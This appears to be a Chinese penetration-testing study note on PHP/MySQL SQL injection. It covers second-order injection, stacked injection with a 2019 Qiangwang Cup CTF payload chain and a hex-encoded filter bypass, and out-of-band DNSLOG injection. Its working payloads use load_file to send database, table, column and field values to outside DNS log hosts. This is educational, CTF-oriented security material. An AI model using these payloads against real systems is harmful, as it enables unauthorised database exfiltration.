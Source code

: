 
---
#PHP-MYSQL-二次注入-DEMO 

**示例**
1、DEMO-用户注册登录修改密码
2、CMS-74CMS个人中心简历功能

黑盒思路

	分析功能有添加后对数据操作的地方（功能点）
白盒思路

	insert后进入select或update的功能的代码块
注入条件

```
	插入时有转义函数或配置(insert)，后续有利用插入的数据(select/update)
	由于select/updata函数执行sql拼接时需要单引号，而insert如果添加单引号会造成sql语句错误，所以需要满足代码中使用了魔法函数（自动将输入的单引号进行转义）。
```

#PHP-MYSQL-堆叠注入-DEMO

例如：CTF强网
堆叠注入触发的条件很苛刻，因为堆叠注入原理就是通过结束符同时执行多条sql语句，

例如php中的==mysqli_multi_query==函数。与之相对应的mysqli_query()只能执行一条SQL，所以要想目标存在堆叠注入,在目标主机存在类似于mysqli_multi_query()这样的函数,根据数据库类型决定是否支持多条语句执行.

条件

1、目标存在sql注入漏洞

2、目标未对";"号进行过滤

3、目标中间层查询数据库信息时可同时执行多条sql语句

支持堆叠数据库：MYSQL、MSSQL、Postgresql等

-2019强网杯-随便注（CTF题型）

```
	';show databases;
	
	';show tables;
	
	';show columns from `1919810931114514`;
	
	';select flag from `1919810931114514`;
	由于题目中代码对select，等查询语句进行过滤，所以采用将语句转换成16进制，用变量进行执行进行绕过
	';SeT @a=0x73656c65637420666c61672066726f6d20603139313938313039333131313435313460;prepare execsql from @a;execute execsql;
```
#PHP-MYSQL-带外注入-DEMO&DNSLOG

0.注入条件

```
	ROOT高权限且支持load_file()
	(secure-file-priv设置)
	
	有部分注入点是没有回显的，所有读取也是没回显的，采用带外
```

1.使用平台(外带平台)

http://ceye.io

http://www.dnslog.cn

2.带外应用场景：

	解决不回显，反向连接，SQL注入，命令执行，SSRF等
SQL注入：

```
select load_file(concat('\\\\',(select database()),'.7logee.dnslog.cn\\aa'));

and (select load_file(concat('//',(select database()),'.69knl9.dnslog.cn/abc')))
```

// 查询当前数据库

```
	id=1 and load_file(concat("\\\\",database(),".dbuh8a.ceye.io\\asdt"))
```

//查询其他数据库

```
	id=1 and load_file(concat("\\\\",(select schema_name from information_schema.schemata limit 0,1),".dbuh8a.ceye.io\\xxx.txt"))
```
	
由于该DNS记录只能回显一个字段，所以因该使用limit，第一个参数是查询起始位置，第二个参数是查询个数

```
	limit 0,1 查询第一个数据库名

	limit 1,1 查询第二个数据库名

	limit 2,1 查询第三个数据库名
```

//查询版本号

	id=1 and load_file(concat("\\\\",version(),".dbuh8a.ceye.io\\xxx.txt"))

//查询当前数据库demo01中第一个表名

```
	id=1 and load_file(concat("\\\\",(select table_name from information_schema.tables where table_schema='demo01' limit 0,1 ),".dbuh8a.ceye.io\\xxx.txt"))
```

由于该DNS记录只能回显一个字段，所以因该使用limit，第一个参数是查询起始位置，第二个参数是查询个数

```
	limit 0,1 查询第一个表名

	limit 1,1 查询第二个表名

	limit 2,1 查询第三个表名
```

//查询security数据库emails表下第一个列名

```
	id=1 and load_file(concat("\\\\",(select column_name from information_schema.columns where table_schema='security' and table_name='emails' limit 0,1),".dbuh8a.ceye.io\\xxx.txt"))
```

//查询字段值 数据库名为security 表名emails 列名id

```
	id=1 and load_file(concat("\\\\",(select id from security.emails limit 0,1),".dbuh8a.ceye.io\\xxx.txt"))
```